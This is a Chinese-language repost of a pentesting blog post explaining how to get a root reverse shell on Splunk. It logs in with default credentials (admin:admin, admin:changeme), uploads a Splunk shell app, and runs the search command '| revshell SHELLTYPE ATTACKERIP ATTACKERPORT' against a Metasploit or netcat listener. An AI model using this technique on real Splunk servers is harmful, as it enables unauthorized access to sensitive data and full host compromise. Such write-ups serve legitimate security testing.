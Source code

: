 ```yaml
---
layout:     post
title:      Splunk
date:       2018-12-08
author:     Wh0ale
header-img: img/wallhaven-701358.jpg
catalog: true
tags:
    - 奇技淫巧
    - Splunk
---
```


我不时地在测试网络时遇到Splunk。Splunk 是一个用于搜索，分析和可视化数据的软件平台。它对各种用途都非常有用。作为一个测试者，它可能很有用，因为它通常包含各种数据，其中一些可能是敏感的。 

获得对Splunk的访问权限可以通过密码猜测或利用以前受到破坏的凭据重用密码来完成。我有过使用“**admin**：**admin** ”或“ **admin**：**changeme** ” 登录进入管理控制台很容易的情况。

一个鲜为人知的技巧是你可以使用Splunk应用程序来执行python。[TBG Security](https://tbgsecurity.com/)的酷团队开发了一款可用于测试的Splunk应用程序。2017年，他们在[许多缺点上](https://github.com/TBGSecurity/weaponize_splunk)展示了他们的应用程序。尽管如此，我觉得很少有人知道这个工具，我觉得它值得更多的关注。

使用它非常容易。首先，您只需要从Splunk Shells [GitHub](https://github.com/TBGSecurity/splunk_shells)页面下载它。下载该版本。

登录Splunk管理控制台后，单击“应用程序”栏并单击“ *管理应用程序”*。

[![img](https://www.n00py.io/wp-content/uploads/2018/10/add_app.png)](https://www.n00py.io/wp-content/uploads/2018/10/add_app.png)

进入“应用”面板后，单击“ *从文件安装应用* ”。

[![img](https://www.n00py.io/wp-content/uploads/2018/10/app-from-file.png)](https://www.n00py.io/wp-content/uploads/2018/10/app-from-file.png)

单击“浏览”按钮并上载tar.gz文件。

[![img](https://www.n00py.io/wp-content/uploads/2018/10/upload_app.png)](https://www.n00py.io/wp-content/uploads/2018/10/upload_app.png)

上传应用后，必须重新启动Splunk。重新启动后，重新登录Splunk并返回“ *应用* ”页面。单击权限，当您看到“*共享* ”选项时，单击“ *所有应用程序* ” 单选按钮。

[![img](https://www.n00py.io/wp-content/uploads/2018/10/edit-properties.png)](https://www.n00py.io/wp-content/uploads/2018/10/edit-properties.png)

安装应用程序后，最后要做的就是捕获shell。你有这里的选择，但我选择通过Metasploit使用标准的反向shell。

[![img](https://www.n00py.io/wp-content/uploads/2018/10/msfsetup.png)](https://www.n00py.io/wp-content/uploads/2018/10/msfsetup.png)

一旦您的MSF处理程序（或netcat侦听器）启动并运行，您可以通过键入以下内容来触发应用程序：

```
| revshell SHELLTYPE ATTACKERIP ATTACKERPORT
```

[![img](https://www.n00py.io/wp-content/uploads/2018/10/splunk-rev.png)](https://www.n00py.io/wp-content/uploads/2018/10/splunk-rev.png)

这将立即执行应用程序，你应该让你的shell回电话。

[![img](https://www.n00py.io/wp-content/uploads/2018/10/shell-opened.png)](https://www.n00py.io/wp-content/uploads/2018/10/shell-opened.png)

我在Splunk 7.0上进行了测试，它运行得很好。Splunk通常以root身份运行。这为攻击者提供了很多机会来枚举主机本身的其他信息，而不仅仅是在数据库中。

**更新：**

另一种选择是使用Tevora的这一[系列应用程序](https://github.com/tevora-threat/splunk_pentest_app)。[在这里](https://threat.tevora.com/penetration-testing-with-splunk-leveraging-splunk-admin-credentials-to-own-the-enterprise/)查看[他们的文章](https://threat.tevora.com/penetration-testing-with-splunk-leveraging-splunk-admin-credentials-to-own-the-enterprise/)，他们讨论弹出shell，提取密码和部署到通用转发器。

**再次更新（10/20/2018）：**

我在这里了解到另一个Splunk Web shell：[https](https://github.com/f8al/TA-Shell)：[//github.com/f8al/TA-Shell](https://github.com/f8al/TA-Shell)

CC：[SecurityShrimp](https://twitter.com/Securityshrimp)

 

转载自：https://www.n00py.io/2018/10/popping-shells-on-splunk/

splunk shell： https://github.com/TBGSecurity/splunk_shells